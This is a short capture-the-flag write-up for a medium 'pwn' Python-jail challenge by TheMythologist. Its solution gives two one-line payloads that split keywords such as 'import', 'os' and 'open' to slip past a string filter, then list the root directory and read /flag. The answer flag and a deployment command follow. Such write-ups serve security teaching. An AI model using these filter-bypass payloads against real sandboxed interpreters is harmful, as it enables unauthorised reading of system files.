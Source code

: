 # "as" "df"

**Author**: TheMythologist

**Category**: pwn

## Description

Why use a python interpreter when there are online ones?

## Difficulty

Medium

## Solution

To list files:

```python
print(__builtins__.__dict__["__impo""rt__"]("o""s").listdir("/"))
```

To read the flag:

```python
print(getattr(__builtins__.__dict__["op""en"]("/fl""ag"),"re""ad")())
```

Flag: `SEE{every_ctf_must_have_a_python_jail_challenge_836a4218fb09b4a0ab0412e64de74315}`

## Deployment

`docker-compose up -d`
